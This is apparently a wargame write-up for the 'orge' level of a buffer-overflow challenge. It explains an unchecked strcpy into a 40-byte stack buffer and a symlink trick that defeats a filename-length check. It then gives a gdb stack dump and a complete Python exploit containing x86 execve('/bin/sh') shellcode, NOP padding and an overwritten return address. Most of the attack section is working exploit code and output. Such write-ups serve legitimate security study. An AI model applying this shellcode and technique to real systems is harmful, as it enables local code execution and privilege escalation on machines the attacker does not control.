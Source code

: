 # Vulnerability
```c
char buffer[40];
strcpy(buffer, argv[1]);
```
`orge` program uses strcpy() function to copy argv[1] to buffer's address.

The strcpy() function doesn't check boundary so that is vulnerable.

`orge`'s protection code is:
```c
// here is changed!
if(strlen(argv[0]) != 77){
              printf("argv[0] error\n");
              exit(0);
}

// egghunter 
for(i=0; environ[i]; i++)
  memset(environ[i], 0, strlen(environ[i]));

if(argv[1][47] != '\xbf')
{
  printf("stack is still your friend.\n");
  exit(0);
}

// check the length of argument
if(strlen(argv[1]) > 48){
  printf("argument is too long!\n");
  exit(0);
}

// buffer hunter
memset(buffer, 0, 40);
```
argv[0]'s length check is added. It checks file name is 77 bytes or not.

# Exploitation
As the program doesn't reset argv[1]'s address, I will use argv[1]'s address to RET.

Bypass argv[0]'s length check by using `ln -s` symbolic file.

```bash
[darkelf@localhost darkelf]$ cp ./orge ./asdf
[darkelf@localhost darkelf]$ 
[darkelf@localhost darkelf]$ ln -s /home/darkelf/asdf /home/darkelf/`python -c 'print "A"*63'`
[darkelf@localhost darkelf]$ /home/darkelf/`python -c 'print "A"*63'` `python -c 'print "\xbf"*48'`
¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿¿
Segmentation fault
[darkelf@localhost darkelf]$ 
```

length check is bypassed successfully.

Now, send a payload to get core file(to know where is argv[1]).

The stack is:
```
(gdb) x/32x 0xbffffbdc
0xbffffbdc:	0x90909090	0x90909090	0x90909090	0x6850c031
0xbffffbec:	0x68732f2f	0x69622f68	0x50e3896e	0x31e18953
0xbffffbfc:	0xcd0bb0d2	0x41414180	0xfffc3441	0x000000bf
```
# Payload
```python
import os
from struct import *

filename = ""
filename = filename + "/home/darkelf/"
filename = filename + "A"*63

print len(filename)

payload = ""
payload = payload + "\x90" * 15
payload = payload + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
payload = payload + "AAAA" # SFP
payload = payload + "\xe0\xfb\xff\xbf" # RET

os.execv(filename, [filename, payload])
```
